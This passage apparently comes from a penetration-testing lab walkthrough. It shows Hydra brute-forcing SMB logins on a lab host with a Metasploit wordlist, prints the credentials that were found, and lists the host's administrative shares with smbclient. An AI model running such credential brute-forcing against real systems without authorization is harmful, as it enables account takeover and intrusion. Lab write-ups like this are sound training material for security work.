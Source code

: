 ![](.gitbook/assets/image-20230424115855262.png)

- **Brute-force SMB**

```bash
hydra -l administrator -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.2.26.45 smb

hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.2.26.45 smb
```

```bash
[445][smb] host: 10.2.26.45   login: administrator   password: vagrant
[445][smb] host: 10.2.26.45   login: vagrant   password: vagrant
```

![](.gitbook/assets/image-20230424120012718.png)

- **Enumerate shares**

```bash
smbclient -L 10.2.26.45 -U vagrant

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
```
